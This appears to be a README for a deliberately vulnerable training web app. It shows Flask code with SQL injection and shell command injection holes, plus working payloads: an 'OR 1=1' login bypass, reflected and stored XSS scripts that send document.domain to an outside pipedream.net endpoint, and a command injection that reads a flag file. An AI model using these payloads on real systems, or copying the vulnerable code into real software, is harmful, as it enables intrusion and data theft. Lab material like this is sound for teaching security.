


# SQLi

Код на сервере:

```python
lf = LoginForm()
if lf.validate_on_submit():
    result = check_user_sqli(lf.username.data, lf.password.data)
    if result:
        return render_template("sqli.html", result = result)
    else:
        flash('Incorrect data!')
```

```python
@create_db_connect("sqli.db")
def check_user_sqli(user, pswd, cursor):
    cursor.execute("SELECT username, password FROM Users WHERE username = \"{}\" AND password = \"{}\"".format(user, pswd))
    return cursor.fetchall()
```
Payload:
```sh
admin : 1" OR 1=1;
```

# XSS REFLECTED


Payload:
```sh
1337<script>var img = new Image();img.src = "https://enm3vddkwx8b.x.pipedream.net?some_data=" + document.domain;document.getElementById('body').appendChild(img);</script>
```



# XSS STORED



Payload in note:
```sh
1337<script>var img = new Image();img.src = "https://enm3vddkwx8b.x.pipedream.net?some_data=" + document.domain;document.getElementById('body').appendChild(img);</script>
```


# RCE


```python
mf = MessageForm()
if mf.validate_on_submit():
    result = write_message_rce(mf.message.data)
    if len(result) == 0:
        flash('Message saved!')
    else:
        flash(result)
```
```python
def write_message_rce(note):
    command = 'echo "' + str(note) + '" > ' + os.path.join(os.path.abspath("."),'data_rce/')+ str(randint(0,100)) + '.txt'
    result = ''
    for line in run_command(command):
        result += line.decode()
    return result
```
```python
def run_command(command):
    p = subprocess.Popen(command,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.STDOUT,
                         shell=True)
    return iter(p.stdout.readline, b'')
```

Payload in note:
```sh
1" && cat data_rce/flag.txt #
```

